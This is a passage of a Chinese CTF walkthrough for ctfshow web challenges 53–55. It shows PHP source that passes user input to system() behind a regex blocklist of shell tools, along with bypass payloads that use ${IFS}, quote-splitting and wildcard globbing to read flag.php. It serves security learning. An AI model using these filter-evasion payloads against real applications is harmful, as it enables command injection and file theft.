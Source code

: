 <br>空标签，意味着换行。也就是说会出现原指令的名字。

?c=ls查看发现有flag.php和readflag？

都尝试打开试试

?c=t''ac${IFS}fla''g.p''hp



### web54

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 19:43:42
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了很多命令。中间这些个很多的星号的内容，其实是说，含有cat,more这样的会被匹配，如cat 那么ca323390ft或c232fa3kdfst, 凡是按序出现了cat 都被匹配。 这时，我们不能直接写ca?因为这样是匹配不到命令的。只能把全路径写出来，如/bin/ca?,与/bin/ca?匹配的，只有/bin/cat命令，这样就用到了cat 命令了。

空格依旧用${IFS}代替。先ls查看一下，发现目标文件flag.php

然后构建查看flag.php的payload：?c=/bin/?at${IFS}f???????

请注意，它只是执行了但没有回显结果，需要自己看源代码



### web55

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 20:03:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
```